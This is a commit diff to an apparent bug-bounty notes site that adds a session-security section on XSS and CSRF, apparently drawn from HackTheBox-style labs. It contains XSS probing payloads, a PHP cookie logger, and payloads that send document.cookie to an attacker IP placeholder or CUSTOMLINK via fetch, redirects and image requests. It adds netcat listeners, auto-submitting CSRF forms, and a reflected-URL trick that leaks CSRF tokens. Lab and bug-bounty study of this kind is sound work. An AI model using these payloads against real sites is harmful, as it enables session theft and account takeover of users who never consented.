

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/session-security.md, in a window 1280 px wide and 1400 px high, scrolled down 2575 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update session security page

````diff
--- a/docs/bug-bounty-guide/session-security.md
+++ b/docs/bug-bounty-guide/session-security.md
@@ -78,3 +78,137 @@
 select * from all_sessions;
 select * from all_sessions where id=3; -- look in specific record in a table
 ```
+
+## Cross-Site Scripting (XSS)
+
+For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:
+- Session cookies should be carried in all HTTP requests
+- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing (check in cookies web dev tools))
+
+Test fields with the following payloads
+```js
+"><img src=x onerror=prompt(document.domain)>
+"><img src=x onerror=confirm(1)>
+"><img src=x onerror=alert(1)>
+```
+dependning on what (if anything) is returned will tell you which field is vulnerable
+
+### Obtaining session cookies through XSS
+
+- Create a cookie-logging script
+```php
+<?php
+$logFile = "cookieLog.txt";
+$cookie = $_REQUEST["c"];
+
+$handle = fopen($logFile, "a");
+fwrite($handle, $cookie . "\n\n");
+fclose($handle);
+
+header("Location: http://www.google.com/");
+exit;
+?>
+```
+- start the listener
+```bash
+php -S <VPN/TUN Adapter IP>:8000
+```
+- update the vulnerable field with a payload
+```js
+<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
+// or
+<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
+```
+- visit the updated profile page to trigger the payload
+
+**Note:** If you're doing testing in the real world, try using something like [XSSHunter (now deprecated)](https://xsshunter.com/#/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/#/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
+
+### Obtaining session cookies via XSS (Netcat edition)
+
+- example payload
+```js
+<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
+// or
+<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
+```
+- listener
+```bash
+nc -nlvp 8000
+```
+- cookie will arrive b64 encoded because the btoa() function was used.
+
+## Cross-Site Request Forgery (CSRF or XSRF)
+
+A web application is vulnerable to CSRF attacks when:
+- All the parameters required for the targeted request can be determined or guessed by the attacker
+- The application's session management is solely based on HTTP cookies, which are automatically included in browser requests
+
+To successfully exploit a CSRF vulnerability, we need:
+- To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
+- The victim to be logged into the application at the time when the malicious cross-site request is issued
+
+### Example
+
+- Make a change (update profile etc)
+- Intercept request
+- Check for presence of anti-CSRF token
+- Create a HTML file based on the form being filled out ([reference](https://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Forms/Sending_and_retrieving_form_data)):
+```html
+<html>
+  <body>
+    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
+      <input type="hidden" name="email" value="attacker@htb.net" />
+      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
+      <input type="hidden" name="country" value="CSRF_POC" />
+      <input type="submit" value="Submit request" />
+    </form>
+    <script>
+      document.getElementById("submitMe").submit()
+    </script>
+  </body>
+</html>
+```
+- serve the form
+```bash
+python -m http.server 1337
+```
+- Visit the served page in a new tab ```http://<VPN/TUN Adapter IP>:1337/notmalicious.html```
+- Check original page to see if details have updated
+
+### Cross-Site Request Forgery (GET-based)
+
+- inspect get request with burp etc ```GET /app/save/julie.rogers@example.com?telephone=%28834%29-609-2003&country=United+States&csrf=d33c0908672c32d7a3a6bc1700ee65983b57c688&email=julie.rogers%40example.com&action=save HTTP/1.1```
+-  create and serve corresponding HTML page:
+```html
+<!-- save as notmalicious_get.html -->
+<html>
+  <body>
+    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
+      <input type="hidden" name="email" value="attacker@htb.net" />
+      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
+      <input type="hidden" name="country" value="CSRF_POC" />
+      <input type="hidden" name="action" value="save" />
+      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
+      <input type="submit" value="Submit request" />
+    </form>
+    <script>
+      document.getElementById("submitMe").submit()
+    </script>
+  </body>
+</html>
+```
+```bash
+python -m http.server 1337
+```
+- whilst user is still logged in visit ```http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html```
+- refresh profile page to see if updates have taken effect
+
+### Cross-Site Request Forgery (POST-based)
+
+- can abuse reflected URL values
+- set up netcat listener
+```bash
+nc -nlvp 8000
+```
+- visit ```http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f``` where ```%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f``` is the reflected part
+- listener should record the csrf token which can be used for post requests
````
